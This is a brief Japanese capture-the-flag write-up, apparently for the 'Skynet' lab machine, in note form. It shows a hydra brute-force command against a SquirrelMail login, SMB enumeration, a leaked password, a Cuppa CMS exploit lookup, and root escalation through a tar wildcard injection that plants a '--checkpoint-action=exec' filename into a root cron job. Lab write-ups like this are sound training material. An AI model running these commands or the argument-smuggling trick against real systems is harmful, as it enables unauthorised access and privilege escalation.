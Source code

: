 ```yaml
---
title: "Skynet"
date: 2024-03-16T11:17:21+09:00
draft: false
---
```


### user.txt

- smb なので enum4linux
  - anonymous
  - milesdyson
- anonymous でアクセスするとファイルがもらえる
  - パスワードリストをもってくる
- ```hydra -l milesdyson -P log1.txt [IP] http-form-post "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."```
- squirrelmail にアクセス
  - )s{A&2Z=F^n_E.B` を受け取る
- smb に milesdyson でアクセス
  - ```smbclient //10.10.35.53/milesdyson --user=milesdyson```
  - ```/45kra24zxs28v3yd``` というディレクトリがあるらしい
- ```gobuster dir -u http://10.10.35.53/45kra24zxs28v3yd```
  - cuppa が使われている
- ```searchsploit cuppa CMS```
  - リバースシェルを立てる
  
### root.txt

- crontab

``` shell
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

``` shell
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

- ワイルドカードがあるのでオプションのやつが刺さる
  - shell.sh を ```chmod 777 /root```
  - ```–-checkpoint-action=exec=sh shell.sh``` というファイルも作る
